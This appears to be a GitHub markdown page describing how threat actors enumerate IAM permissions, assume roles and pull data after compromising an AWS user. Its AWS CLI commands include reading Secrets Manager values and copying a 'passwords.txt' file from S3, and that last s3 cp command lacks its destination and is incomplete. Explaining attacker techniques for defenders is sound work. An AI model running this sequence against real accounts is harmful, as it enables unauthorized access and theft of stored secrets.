

# AWS INITIAL ACCESS AND ENUMERATION

When threat actors compromise an AWS user, they often follow a systematic process of enumeration and lateral movement to expand their access and gather sensitive information.  
Here's a breakdown of how attackers perform these activities using various AWS CLI commands, usually these operation are automated via the use of tools like [*pacu*](https://github.com/RhinoSecurityLabs/pacu).   
The first step an attacker takes is to identify the compromised IAM user and account details:
```sh
aws sts get-caller-identity
```  


Next, attackers gather more details about the IAM user (creation date, tags, and other metadata):  
```sh
aws iam get-user --user-name <username>
```  


To understand the user's permissions, attackers check for group memberships and attached policies:  
```sh
aws iam list-groups-for-user --user-name <username>
aws iam list-attached-user-policies --user-name <username>
aws iam list-user-policies --user-name <username>
```  

Attackers need to understand the permissions granted by these policies:  
```sh
aws iam list-policy-versions --policy-arn <policy-arn>
aws iam get-policy-version --policy-arn <policy-arn> --version-id <version-id>
```

After understanding the permissions, attackers can move laterally by assuming roles or accessing other resources:  
```sh
aws iam get-role --role-name <role-name>
aws sts assume-role --role-arn <role-arn> --role-session-name <session-name>
```
With new permissions granted, attackers can access sensitive data like S3 bucket contents, EC2 instances, or secrets stored in Secrets Manager:
```sh
aws ec2 describe-instances
aws secretsmanager list-secrets
aws secretsmanager get-secret-value --secret-id <secret-id>
aws s3 ls s3://<bucket-name>
aws s3 cp s3://<bucket-name>/passwords.txt
```  


  